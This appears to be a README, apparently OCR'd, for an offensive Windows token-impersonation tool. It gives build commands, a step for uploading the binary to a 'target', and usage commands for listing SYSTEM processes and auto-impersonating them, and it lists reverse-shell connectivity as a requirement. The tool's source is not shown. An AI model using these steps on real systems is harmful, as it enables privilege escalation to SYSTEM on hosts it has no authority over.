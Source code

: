 🔧 Requirements
Target System

Windows Server 2016/2019/2022 or Windows 10/11
Account with SeImpersonatePrivilege (IIS service accounts, SQL Server, local admin, etc.)
Network connectivity for reverse shell operations

Build Environment

MinGW-w64 cross-compiler (Linux) or Visual Studio (Windows)
Windows SDK headers


📦 Installation
Compile on Linux (Kali/Parrot)
bash# Install MinGW compiler if not already installed
sudo apt update
sudo apt install mingw-w64

# Clone repository
git clone https://github.com/yourusername/token-impersonation-tool.git
cd token-impersonation-tool

# Compile
x86_64-w64-mingw32-g++ -mconsole -o TokenImpersonate.exe \
    main.cpp tokenImpersonate.cpp \
    -ladvapi32 -static-libgcc -static-libstdc++ -lws2_32

# Transfer to target
upload TokenImpersonate.exe
Compile on Windows
cmd# Using Visual Studio Developer Command Prompt
cl /EHsc main.cpp tokenImpersonate.cpp advapi32.lib ws2_32.lib /Fe:TokenImpersonate.exe
```

---

## 📖 Usage

### Basic Syntax
```
TokenImpersonate.exe <command> [options]
Command Reference
Enumeration
powershell# List all accessible processes
.\TokenImpersonate.exe list

# Filter for specific users
.\TokenImpersonate.exe list | findstr "SYSTEM"
.\TokenImpersonate.exe list | findstr "Administrators"
Impersonation
powershell# Auto-impersonate best SYSTEM process
.\TokenImpersonate.exe auto
